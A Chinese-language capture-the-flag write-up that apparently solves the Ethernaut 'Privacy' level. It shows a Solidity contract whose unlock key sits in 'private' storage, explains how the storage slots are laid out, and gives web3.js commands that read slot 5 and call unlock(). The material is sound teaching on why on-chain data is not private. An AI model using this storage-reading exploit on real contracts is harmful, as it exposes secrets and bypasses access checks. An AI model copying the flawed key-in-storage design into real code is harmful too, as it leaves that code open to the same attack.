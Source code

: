 # Privacy


## 代码
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```


## 分析
还是和[9-Vault.md](./9-Vault.md)一样，链上无隐私。同时在[7-Delegation](./7-Delegation.md) 上也了解到了storage的layout。

需要注意的，solidity也会自动对齐。不足32个字节的，同类型的应该都会自动对齐。
因此:
bool public locked = true; -> `slot0`
uint256 public ID = block.timestamp; -> `slot1`
uint8 private flattening = 10; -> `slot2`
uint8 private denomination = 255; -> `slot2`
uint16 private awkwardness = uint16 (block.timestamp);-> `slot2`
bytes32[3] private data;

data[0]->-> `slot3`
data[1]->-> `slot4`
data[2]->-> `slot5`


因此通过读取slot=5的就可以读取到具体的值。
## pwn
不会写solidity代码，因为现在还不会solidity的会变。只能用web3js来做。

```js
await web3.eth.getStorageAt(contract.address,5)
'0x3236b54662ad442b905dc803044cf42e5ed4a49b57585810ff9eb9bd46e6707f'
```

这是32字节的，但是需要的参数是bytes16，16个字节的。

```
 await web3.eth.getStorageAt(contract.address,5).then(v=>v.slice(0,34))
'0x3236b54662ad442b905dc803044cf42e'
```
从0-34的原因，是web3返回的时候，默认给加了个`0x`，所以多了2个字节。

最后`await contract.unlock("0x3236b54662ad442b905dc803044cf42e")` 就通过了。





## ref
[How to read Ethereum contract storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)


